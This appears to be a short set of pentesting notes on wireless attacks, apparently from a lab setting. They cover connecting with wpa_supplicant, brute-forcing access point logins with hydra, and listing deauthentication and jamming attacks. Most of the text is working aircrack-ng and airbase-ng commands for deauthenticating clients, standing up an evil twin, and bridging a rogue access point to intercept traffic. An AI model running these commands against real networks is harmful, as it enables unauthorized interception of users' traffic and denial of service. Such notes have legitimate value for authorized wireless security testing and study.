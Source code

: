 create a file wpa-supp.conf

```
#WPA-PSK/TKIP

network={
        ssid="wireless_lab"
        key_mgmt=WPA-PSK
        proto=WPA
        pairwise=TKIP
        group=TKIP
        psk="password123"
}

```

* wpa_supplicant -D wext -i wlan0 -c wpa-supp.conf
* dhcient3 wlan0 -- connect via dhcp

## test for default credentials on access point

* hydra tool or other brute forcing tool

## denial of service attacks

* deauthentication
* disassociation attacks
* CTS-RTS attacks
* signal inference or spectral jamming attacks

## evil twin and access point MAC spoofing

* locate the access point BSSID and ESSId with airodump-ng

```

airodump-ng -c 11 wlan0mon
airbase-ng --essid Rogue -c 8 wlan0mon
aireplay-ng -O 5 -a xx:xx... --ignore-negative-one wlan0mon
```

## rogue access point

Creating an access point that bridges traffic to the original one. Commonly uses no encryption.

```
airbase-ng --essid Rogue -c 8 wlan0mon

apt-get install bridge-utils

brctl addbr Wifi-Bridge

brctl addif Wifi-Bridge eth0
brctl addif Wifi-Bridge at0

ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up

echo 1 > /proc/sys/net/ipv4/ip_forward

ifconfig Wifi-Bridge up

```
